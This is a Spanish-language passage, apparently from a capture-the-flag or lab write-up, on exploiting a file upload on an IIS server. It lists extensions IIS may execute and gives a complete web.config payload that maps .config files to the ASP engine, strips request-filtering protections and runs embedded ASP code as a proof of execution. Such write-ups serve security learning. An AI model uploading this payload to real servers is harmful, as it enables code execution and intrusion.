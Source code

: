 Viendo que es una subida de archivos podría estar relacionados:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FynTKOd90k7UxmlZvVCnT%2Fimage.png?alt=media&#x26;token=c26b543e-84bd-4097-b979-dbd2b9185eea" alt=""><figcaption></figcaption></figure>

Efectivamente, sabiendo que es un **IIS**, podemos intentar subir un archivo que llegue a ejecutar comandos. Las extensiones que podrían valer son:

#### ASP / ASP.NET

* .asp
* .aspx
* .ashx
* .asmx
* .asa
* .axd

#### Mapeadas en IIS (dependiendo de la config)

* .cer
* .cdx
* .config
* .htr
* .idc
* .stm
* .shtml

### Web.config

Podemos ver que .config si que nos deja. Investigando podemos ver un artículo que nos provee este código:

```xml title="web.config"
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```
